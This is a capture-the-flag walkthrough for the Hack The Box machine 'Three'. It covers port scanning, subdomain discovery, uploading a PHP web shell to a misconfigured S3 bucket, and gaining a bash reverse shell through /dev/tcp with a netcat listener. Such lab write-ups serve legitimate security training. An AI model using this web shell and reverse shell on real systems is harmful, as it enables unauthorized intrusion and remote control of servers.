








# Three (HTB, Starting Point)

## Enumeration

### NMAP

**Command Used**
```
nmap -v -sC -sV -oA nmap/Three [ip-address]
```

**Output**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Toppers
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 17:18
Completed NSE at 17:18, 0.00s elapsed
Initiating NSE at 17:18
Completed NSE at 17:18, 0.00s elapsed
Initiating NSE at 17:18
Completed NSE at 17:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.49 seconds
zsh: segmentation fault  nmap -v -sV -sC -oA nmap/Three.nmap 10.129.126.225
```

- Found Port **80** open and running service **Apache httpd 2.4.29 ((Ubuntu))**.
- And Port **22/tcp** open and running service **OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)**.

### On Browser

- Let's check the Running Website on the Target!


### Gobuster



- Looks like a PHP website is running on the machine.

### Inspecting Source Code!



- From the Source Code we found an Email Address.

```
Email: mail@thetoppers.htb
```
Looks the the domain name could be **toppers.htb**

- Lets try to add it to our hosts file and then lookup more in the Website.

### Gobuster with vhosts



- Found a subdomain named as **s3.thetoppers.htb**.

- Checking the url on the browser:



### Getting Details with awscli

**Listing the S3 Resources**

```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

**Output**


**Uploading our PHP webshell to the Target**

**PHP Shell Command**
```
<?php system($_GET['cmd']);?>
```
**Command to upload Shell to the Target:**
```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```
### Exploitation

- Checking if our Web-Shell is working fine by runing **id** command:



**Serving a http server from our local machine to upload our reverse shell**

```
sudo python -m http.server 8000
```
- Also start the netcat listener on the configured port number same as in your bash reverse shell.

```
nc -lvnp 1234
```

- Now let's upload and run our Bash reverse shell command:

```
bash -i >& /dev/tcp/[ip-address]/1234 0>&1
```


- On Netcat we instantly get the connection like this:


**DONE**


